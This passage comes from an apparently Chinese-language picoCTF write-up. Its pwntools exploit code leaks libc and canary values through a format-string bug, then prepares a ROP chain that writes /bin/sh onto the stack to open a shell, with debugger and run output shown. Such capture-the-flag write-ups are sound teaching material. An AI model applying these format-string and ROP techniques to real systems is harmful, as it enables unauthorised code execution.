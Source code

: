     '''#############
    Find Libc address by stack info
    #############'''
    r.recvuntil(b'What number would you like to guess?\n')
    r.sendline(str(ans).encode())
    r.recvuntil(b'Name? ')
    r.sendline(b"%147$p")
    r.recvuntil(b"Congrats: 0x")
    __libc_start_main = int(r.recvuntil(b"\n").strip().decode(), 16)
    libc_addr = __libc_start_main - 0x018fa1
    libc_system_addr = libc_addr + 0x03cf10
    success(f"libc base address = {hex(libc_addr)}")
    success(f"libc system address = {hex(libc_system_addr)}")
    raw_input()
    ```
    ```bash
    $ python exp.py LOCAL
    [+] Starting local process './vuln': pid 9451
    [+] libc base address = 0xf7dce000
    [+] libc system address = 0xf7e0af10
    $ python exp.py REMOTE
    [+] Opening connection to jupiter.challenges.picoctf.org on port 18263: Done
    [+] libc base address = 0xf7d99000
    [+] libc system address = 0xf7dd5f10
    ```
4. **找canary**
這一題因為有開canary又要觸發rop所以勢必會蓋到，可以先把相對位置記起來，也就是$esp+0x021c
    ```bash
    0xffffc978│+0x0218: 0xf7e22d39  →  <printf+9> add eax, 0x1982c7
    0xffffc97c│+0x021c: 0x0c458f00
    0xffffc980│+0x0220: 0x0804a0c4  →  "Version: %x\n\n"
    0xffffc984│+0x0224: 0x0804bfb8  →  0x0804bec0
    0xffffc988│+0x0228: 0xffffc9a8  →  0x00000000    ← $ebp
    ```
    ```bash
    $ python exp.py LOCAL
    [+] Starting local process './V': pid 11379
    [+] libc base address = 0xf7d2f000
    [+] libc system address = 0xf7d6bf10

    [+] Canary Value = 0xd824d100
    ```
5. **寫/bin/sh\x00並開shell**
要開shell的話必須要找個地方寫`/bin/sh\x00`，但是我有想過要用system read的方式，但是找不到int 0x80 ; ret的gadget所以就直接寫在stack上最快也最方便，只是要計算執行到開shell之前的esp或ebp，所以我們可以直接沿用fmt的技巧先把ebp的address紀錄起來等到把/bin/sh寫上去之後再看offset是多少，以我的例子來說就是差了0x8的距離，可以直接用gdb跟一下就知道了
    ```python
    r.recvuntil(b'What number would you like to guess?\n')
    r.sendline(str(ans).encode())
    r.recvuntil(b'Name? ')
    r.sendline(b"%138$p")
    r.recvuntil(b"Congrats: ")
    ebp_addr = int(r.recvuntil(b"\n").strip().decode(), 16)
    success(f"ebp address = {hex(ebp_addr)}")
    # raw_input()
